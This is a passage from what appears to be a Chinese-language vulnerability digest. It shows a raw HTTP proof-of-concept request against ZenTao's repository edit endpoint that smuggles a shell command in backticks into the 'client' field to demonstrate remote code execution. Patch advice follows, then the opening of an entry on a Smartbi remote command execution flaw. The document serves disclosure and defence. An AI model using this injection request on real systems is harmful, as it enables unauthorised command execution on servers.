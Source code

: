     product%5B%5D=1&SCM=Gitlab&serviceProject=wangnima&name=wangnima2333&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=63e4a18218a68  
    

创建好后，去到  
http://127.0.0.1:8081/shandao/www/index.php?m=repo&f=maintain&tid=rmqcl0ss查看repoID并进入编辑

    
    
    POST /shandao/www/index.php?m=repo&f=edit&repoID=8&objectID=0&tid=rmqcl0ss HTTP/1.1  
    Host: 127.0.0.1:8081  
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0  
    Accept: application/json, text/javascript, */*; q=0.01  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: http://127.0.0.1:8081/shandao/www/index.php?m=repo&f=edit&repoID=8&objectID=0&tid=rmqcl0ss  
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
    X-Requested-With: XMLHttpRequest  
    Content-Length: 222  
    Origin: http://127.0.0.1:8081  
    Connection: close  
    Cookie: lang=zh-cn; device=desktop; theme=default; tab=devops; preCaseLibID=1; lastCaseLib=1; checkedItem=; goback=%7B%22devops%22%3A%22http%3A%5C%2F%5C%2F127.0.0.1%3A8081%5C%2Fshandao%5C%2Fwww%5C%2Findex.php%3Fm%3Drepo%26f%3Dbrowse%26repoID%3D1%26branchID%3D%26objectID%3D0%26tid%3Dvwy3ton6%22%7D; zentaosid=r3094u5448167shtdrur4c7b6q; repoBranch=master; windowWidth=1453; windowHeight=844  
    Sec-Fetch-Dest: empty  
    Sec-Fetch-Mode: cors  
    Sec-Fetch-Site: same-origin  
      
    product%5B%5D=1&SCM=Subversion&serviceHost=&name=wangnima2333&path=http%3A%2F%2F123.4.5.6&encoding=utf-8&client=%60open+%2FSystem%2FApplications%2FCalculator.app%60&account=&password=&encrypt=base64&desc=&uid=63e4a26b5fd65  
    

 **修复建议**  
1、进行官方升级:  
具体升级方法:https://www.zentao.net/book/zentaoprohelp/41.html  
2、安全产品升级:  
部分厂商安全产品具备识别该漏洞功能，进行版本升级至最新版。  
3、临时防护措施：  
可在 module/common/model.php 文件中 echo $endResponseException->getContent();后面加上
exit(); 来修复权限绕过漏洞。

# 9、 **Smartbi 远程命令执行漏洞**

Smartbi 大数据分析平台存在远程命令执行漏洞，未经身份认证的远程攻击  
者可利用 stub 接口构造请求绕过补丁限制，进而控制 JDBC URL，最终可导致远  
程代码执行或信息泄露。  
**漏洞标签：** 国产OA、服务器权限相关、打点常见、利用链成熟  
 **漏洞编号：** 无  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. v7 <= Smartbi <= v10.5.8

